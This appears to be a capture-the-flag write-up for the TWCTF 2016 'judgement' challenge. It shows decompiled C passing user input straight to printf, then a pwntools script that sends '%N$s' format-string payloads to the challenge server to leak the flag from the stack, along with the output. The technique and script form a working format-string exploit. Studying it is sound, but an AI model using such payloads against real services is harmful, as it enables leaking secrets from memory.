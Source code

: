 ```yaml
---
title: '[TWCTF-2016: PWN] judgement Writeup'
author: Megabeets
type: posts
date: 2016-09-04T23:54:32+00:00

categories:
  - TWCTF 2016
  - Writeups
tags:
  - CTF
  - PWN
  - TWCTF
  - Writeups

---
```

Guest post by Shak.

> **Challenge description:**  
> _Host : pwn1.chal.ctf.westerns.tokyo_  
> _Port : 31729_  
> [judgement][1]{.attachment}

* * *

```sh
[Megabeets]$ nc pwn1.chal.ctf.westerns.tokyo 31729
Flag judgment system
Input flag >> FLAG
FLAG
Wrong flag...

```


<span style="font-weight: 400;">Let’s check the binary. The following function is reading the flag from a local file on the server, so this binary will not reveal the flag, but further examining it might.</span>

```c
int __cdecl load_flag(char *filename, char *s, int n)
{
  int result; // eax@2
  FILE *stream; // [sp+18h] [bp-10h]@1
  char *v5; // [sp+1Ch] [bp-Ch]@5

  stream = fopen(filename, "r");
  if ( stream ) {
    if ( fgets(s, n, stream) ) {
      v5 = strchr(s, 10);
      if ( v5 )
        *v5 = 0;
      result = 1;
    }
    else { result = 0;}
  }
  else { result = 0; }
  return result;
}

```


<span style="font-weight: 400;">Next we can see the main function which gets our input and compares it to the flag. </span>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *v3; // esp@1
  int result; // eax@2
  int v5; // ecx@6
  char input; // [sp+0h] [bp-4Ch]@1
  int v7; // [sp+40h] [bp-Ch]@1
  int *v8; // [sp+48h] [bp-4h]@1

  v8 = &argc;
  v7 = *MK_FP(__GS__, 20);
  v3 = alloca(144);
  printf("Flag judgment system\nInput flag >> ");
  if ( getnline(&input, 64) ) {
    printf(&input);
    if ( !strcmp(&input, flag) )
      result = puts("\nCorrect flag!!");
    else
      result = puts("\nWrong flag...");
  }
  else {
    puts("Unprintable character");
    result = -1;
  }
  v5 = *MK_FP(__GS__, 20) ^ v7;
  return result;
}

```


<span style="font-weight: 400;">What it also does, is printing our input with no formatting (line 15), which means we can use <em>printf</em> format to read data from the stack. First of all, let’s check if this will work by trying to print the second value from the stack as a string</span>

```sh
Flag judgment system
Input flag >> %2$s
פJr≈
Wrong flag…
```


<span style="font-weight: 400;">It works, but no luck there. I wrote a simple python script that will print the first 300 values from the stack and search for the flag:</span>

```python
#!/usr/bin/python

from pwn import *

for i in xrange(1,300):
        r = remote('pwn1.chal.ctf.westerns.tokyo', 31729)
        r.recv()
        r.sendline("%{}$s".format(i))
        try:
                res = r.recv()
                if "TWCTF" in res:
                        print "The flag is: " + res
                        break
        except:
                pass
        r.close()
```


<span style="font-weight: 400;">And indeed we get it:</span>

```sh
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 31729: Done
[*] Closed connection to pwn1.chal.ctf.westerns.tokyo port 31729
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 31729: Done
.
.
.
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 31729: Done
The flag is: TWCTF{R3:l1f3_1n_4_pwn_w0rld_fr0m_z3r0}
Wrong flag...

```




 [1]: https://twctf7qygt6ujk.azureedge.n./judgement-4da7533784aa31b96ca158fbda9677ee8507781ead6625dc6d577fd5d2ff697c
